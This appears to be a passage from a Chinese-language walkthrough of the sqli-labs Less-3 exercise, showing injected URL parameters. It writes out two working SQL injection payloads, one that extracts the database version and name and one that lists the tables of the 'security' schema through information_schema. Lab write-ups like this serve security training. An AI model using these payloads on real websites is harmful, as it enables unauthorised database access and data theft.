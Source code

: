 

+ 注入以下语句

~~~ shell
?id=-1') union select 1,version(),database() --+
~~~

![Less-3_6](./img/Less-3_6.PNG)



+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
~~~
